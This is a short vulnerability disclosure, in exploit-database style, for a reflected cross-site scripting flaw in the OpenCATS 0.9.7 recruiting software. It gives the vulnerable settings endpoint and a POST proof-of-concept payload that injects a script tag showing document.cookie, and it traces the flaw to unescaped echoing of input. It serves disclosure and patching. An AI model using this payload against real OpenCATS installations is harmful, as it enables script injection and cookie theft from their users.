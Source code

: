 # Opencats-0.9.7-Reflected XSS in onChangeTag
Date: 2022/12/25

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL&POC
`http://192.168.2.153/src/opencats/index.php?m=settings&a=ajax_tags_upd`

POST:`tag_title=<script>alert(document.cookie);</script>`

## Result show
Just visit `http://192.168.2.153/src/opencats/index.php?m=settings&a=ajax_tags_upd` and post `tag_title=<script>alert(document.cookie);</script>`, then the reflected XSS
will be triggered.

![image](https://user-images.githubusercontent.com/71068573/209461938-1ffd3a14-6fb1-41d5-bae7-d8860c7d4789.png)

## Source code analysis
Directly echo the content of POST, it should be deleted.

![image](https://user-images.githubusercontent.com/71068573/209461981-1bd70292-d0f7-4bb5-b47f-9a09ce2e1073.png)

![image](https://user-images.githubusercontent.com/71068573/209461971-e1f54bb9-112c-4875-b165-907cbb19e02e.png)
